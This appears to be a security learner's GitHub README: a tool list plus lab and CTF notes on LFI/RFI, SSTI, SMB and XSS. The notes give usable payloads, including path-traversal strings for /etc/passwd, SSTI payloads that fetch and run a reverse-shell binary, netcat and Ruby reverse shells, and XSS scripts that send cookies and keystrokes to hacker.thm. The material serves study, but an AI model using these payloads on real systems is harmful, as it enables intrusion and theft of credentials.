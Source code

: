 ---

#   Computer Science, Cybersecurity, and Software Engineering

 <script src="https://tryhackme.com/badge/1210884"></script>

----- 

<details><summary>My Reading List & Resources</summary>

* Linux Basics for Hackers Getting Started with Networking, Scripting, and Security in Kali (OccupyTheWeb)
* Penetration Testing A Hands-On Introduction to Hacking (Weidman, Georgia)
* Becoming A Master Hacker (OccupyTheWeb)
* Competitive Programming in Python 128 Algorithms to Develop your Coding Skills (Christoph Dürr, Jill-Jênn Vie)
* Real-World Bug Hunting A Field Guide to Web Hacking (Peter Yaworski)
* Codecademy -> https://www.codecademy.com/profiles/JeremyLaratro
* TryHackme.com -> https://tryhackme.com/p/jeremylaratro
* HackTheBox.com -> 
* Hacktricks.xyz
* picoctf.org -> https://play.picoctf.org/users/jeremylaratro
* LeetCode -> https://leetcode.com/jeremylaratro/

</details>


----------
>Overview, Tools, and Pathways
Many tools exist for various different purposes when testing and exploiting systems. The tools necessary for to exploit any machine will vary but in most cases, begin in a similar fashion which is enumeration and reconnaissance. 
The following tools are ones which I have used for challenges, machines, and CTFs.

<details><summary>General Enumeration | Scanning | Reconnaissance</summary>

>>#### whatweb
>- This is often the first tool used to determine basic info about the web server (in cases where a domain is the given target) and to obtain the IP address.

>>####  Nmap  
>- Among the most commonly used tools, nmap allows one to scan the target machine and gain a great deal of information about it, including open ports, services, and even script execution.

>>####  wpscan  
>- If a wordpress site is identified, wpscan is extremely useful in finding potential vulnerabilities by enumerating plugins along with various other powerful features including bruteforce attacks if xmlrpc is enabled.

>>####  Nessus  
>- Nessus is an all-around vulnerability scanner and can help identify potential vulnerabilities and avenues of attack

>>####  OWASP Zap  
>- OWASP Zap is a GUI-based scanning tool that is focused on the OWASP top 10 vulnerabilities. This is another tool that can be useful in determining potential vulnerabilities.

>>####  Dig, dnsenum, and nslookup
>- These tools, along with various others, are useful in automating the process of DNS queries and can be extremely useful in reconnaissance of a website and in understanding the ownership and relationship between domain names and IPs. 
</details>

<details><summary>Exploitation and Investigation Tools</summary>

>There are thousands and thousands of different tools, scripts, and applications out there for all the various different attack types and vulnerabilities. The following are ones which I have personally used in labs and challenges and which I am at least fairly comfortable using.

>#### Web Based Exploitation
>>####  BURP Suite
>> - Powerful proxy -> intercept and modify requests, leading to a large variety of potential uses
>>####  SQLMap 
>> - SQLi scanner and exploitation tool
>>####  dirb, dirbuster, gobuster 
>> - Directory enumeration
>>####  ffuf, hydra 
>> - Web fuzzing, directory enumeration, account brute forcing
>>####  sstimap, lfimap 
>> - LFI and SSTI vulnerability scanner and exploitation tool
>>####  xsssniper
>> - XSS scanner and exploitation tool
>>####  rapidscan 
>> - Tool which essentially creates a suite of other popular exploitation tools like sqlmap, dirb, etc. 

>#### Network and Offline Exploitation
>>####  Metasploit
>> - Massive collection of known exploits, scripts, payloads, and database
>>####  hashcat
>> - GUI-accelerated password cracking tool. Extremely quick.
>>####  John the Ripper
>> - Another password cracking tool, particularly useful for it's auto-detection and john2'other' conversion scripts. 
>>####  cewl, crunch
>> - Custom password and wordlist generators

>#### Investigative Tools
>>####  Shodan
>> - Extremely powerful banner search engine. 
>>####  binwalk, exiftools, strings, cat
>> - Linux file analysis tools
</details>

<details><summary>Areas I'd Like to Improve</summary>

>####  Reverse Engineering
> - One of the areas I'd specifically like to improve in is reverse engineering, using tools like Ghidra and Apktool.
>####  Programming
> - Currently, I am most comfortable programming with Python, then Java, but would like to 
improve my C++ skills as I believe that understanding C++ and other lower-level 
languages improves on the greater understanding of underlying computer systems. I'd also like to 
learn more languages, in general. 
>#### SSTI and RCE
> - I would like to get less reliant upon tools when attempting to exploit SSTI and RCE vulnerabilities, and need
to improve my understanding of PHP and common web frameworks in order to be able to develop my own exploits.
</details>

----------

> Notes from labs, CTF's, and machine's on HackTheBox, TryHackMe, OWASP Juice Shop, etc.

<details><summary>Local File Inclusion and Remote File Inclusion Overview</summary>

># LFI

Notes from TryHackMe's LFI/RFI room. 

Local file inclusion is a vulnerability that can allow attackers to 
traverse the file system due to improperly or non-sanitized requests. 
This may allow an attacker to access sensitive files, ie /etc/passwd

Commonly used attack vector for LFI is '/../../'

````
get.php?file=../../../../etc/passwd
````

This allows traversal through layers of the directories to the root or target folder/directory. How many times depends on the specific system.
This can be determined by encouraging an error, ie:

````
 index.php?lang=jfbdsgd
 ````
 which then may return an error containing something along the lines of:

````
'..
 in /var/www/html/lab2.php on line 26'
 ````
 
 The presence of 4 layers can be derived from this, and thus, 4 levels can be used for the attack:

 ```
 index.php?lang=../../../../etc/passwd
 ```
 OS info can be derived as well:

```
 /get.php?file=../../../../boot.ini
 /get.php?file=../../../../windows/win.ini
 
 ```
 Sanitization and filter evasion:
 
 In PHP 5.3.3 and below, NULL bytes can be used to signify end of string and stop .php extension from being appended
 index.php?lang=../../../../etc/passwd%00
 
 Using a '.' can also be used to signify staying within the directory

````
 ../../../../etc/passwd/.
 ````
 Forced directory - if developer forces a directory, evasion is possible by understanding where that directory lies within the levels.
 Evasion may be as simple as adding an extra layer, ie:

````
 /../../../etc/passwd  --> /../../../../etc/passwd
 ````

 Burp suite can be used to evade any request filters that may filter or change characters
Try POST, GET 
If _REQUEST is being used, take advantage of cookies: 

````
POST /challenges////////////chall3.php HTTP/1.1
Host: 10.10.120.210
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.120.210/challenges///////////chall3.php?file=
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: =../../../etc/flag3
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

file=../../../etc/flag3%00
```` 

--------------------------

># RFI
 
RFI is similar to LFI but involves remote inclusion of files and potentially RCE. It depends on the function:
allow_url_fopen

Overview:
Payload is hosted on attackers servers -> payload injected via HTTP requests using include function -> payload is executed

````
GET /page.php?file=
lang=http://0.0.0.0/r.elf
````

````
O:8:"_construct":1:{s:4:"cookie";s:10:"Some data!";} 
````

Tools:

````
- lfimap
- lfitester
- vailyn
````

</details> 

<details><summary>Server-Side Template Injection - SSTI</summary>

Notes from SSTI Lab on TryHackMe.

Common test-cases:

````
{7*7}
{{7*7}}'
a{{bar}}b
{var} ${var} {{var}} <%var%> [% var %]

````

1.  Start local server.

````
python3 -m http.server 80

````
2. Test functionality of python server remotely using JS and curl.

````
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl http://10.10.16.5")}

10.10.16.5

````
3. Create reverse shell payload and initialize a netcat listener for it. 

````
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.5.0.2 LPORT=5010 -f elf > r.elf

nc -lvnp 443

````
4. Perform the SSTI, getting RCE on the server.

````
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget 10.5.0.2:5003/r.elf")}

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./r.elf")}

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./r.elf")}

*{os.system("nc -e /bin/sh 10.10.16.5 5010")}
<%=system("ruby%20-rsocket%20-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%2210.5.0.2%22%2C5007%29%29%27")%>
````

Tools:

````

- sstimap

````

</details>

<details><summary>SMB Exploitation</summary>

SMB- server message block
* Notes from TryHackMe's SMB room

Enumeration / Recon:
SMB uses port 445
A common service name is 'microsoft-ds'
After enumerating the system and finding a potential SMB exploitation pathway:
Further enumerate the SMB service using smbclient:

````

smbclient -L ip 

````

* Share names will be listed

	
Check for the guest or anonymous login, ie:
Sharenames:

````
ADMIN$
C$
WorkShares
````

After identifying potentially vulnerable share, attempt login:

````
smbclient \\\\ip\\<share>>
````

Upon entry --> 
* browse directories, look for sensitive files
* potential path traversal, pivot to other shares


</details>

<details><summary>XSS</summary>

XSS
Cross site scripting
Injection attack where a malicious payload can be injected into a web page and potentially result in an attacker getting user, staff, or other sensitive data

Check
	
~~~
<script>alert('XSS');</script>
~~~
	
Session stealing:
	
~~~
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
~~~
Key loggger:
	
~~~
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
~~~
	

Business Logic 
	
~~~
<script>user.changeEmail('attacker@hacker.thm');</script>
~~~

#### Stored
Stored XSS is XSS where a payload is injected into a webpage, and stored at the server level, resulting in that malicious code's presentation to other users of the site. This allows for various serious threats. 
Attack Vectors:
Comments on a blog
User profile information
Website Listings


#### Reflected
Reflected XSS, on the other hand, is XSS where the payload is reflected only on the page instance itself. Attackers must send a link to the altered page to a victim to take advantage of reflected XSS, as it is not stored at the server level.
Attack Vectors:
Parameters in the URL Query String
URL File Path 

	
#### DOM
DOM-based XSS depends on JS code executing locally and not server-side. This allows for an attacker to exploit specific JS function and then, like reflected XSS, send a link with the malicious code injected. Requires a deeper level of JS to exploit. 
Attack Vectors:
eval()

	
#### Blind
Blind XSS is XSS where malicious code is presented to other users, as in stored XSS, however you are unable to see it. In order for attackers to take advantage of this XSS, an HTML callback is incorporated into the payload.


Evasion:
	
~~~
"><script>alert(1);</script>
~~~
	
Close tag of encapsulating div:
	
~~~
</textarea><script>alert(1);</script>
~~~
	
Filter evasion:
Filter for 'script' --> sscriptcript
	
~~~
<sscriptcript>alert(1);</sscriptcript>
~~~
	
Within an image:
	
~~~
/images/cat.jpg" onload="alert(1);
~~~
	
Tools:
	
````
	
- xsshunter
- xsssniper
- xssstealer
- garud
- 0d1n
````

</details>

